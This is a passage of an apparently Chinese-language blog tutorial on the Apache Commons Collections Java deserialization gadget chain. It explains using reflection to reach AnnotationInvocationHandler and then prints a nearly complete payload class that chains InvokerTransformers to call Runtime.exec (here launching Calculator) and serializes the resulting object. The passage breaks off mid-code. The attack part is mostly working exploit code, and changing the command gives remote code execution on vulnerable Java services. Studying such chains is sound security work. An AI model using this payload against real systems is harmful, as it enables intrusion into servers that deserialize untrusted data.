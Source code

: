 

这样就会触发。因此需要把构造好的放入`AnnotationInvocationHandler`  因为类无法直接调用 需要通过反射来获取

```java
Class clas = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clas.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Retention.class, outerMap);
/** outerMap 为构造好的map */
```



又因为`Runtime`不可被序列化（可通过反射来解决） 以及如下原因（具体不分析了

![image-20210204121614650](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210204121614650.png)



最终反序列化payload为

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
//import sun.reflect.annotation.AnnotationInvocationHandler;

public class Index {
    public static void main(String[] args) throws Exception {
    
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]
                        {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),};
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx"); // 第一个值必须为value
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);


        HashMap hashMap = new HashMap();

        Class clas = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clas.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(); //写入文件的话需要用FileOutputStream
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
```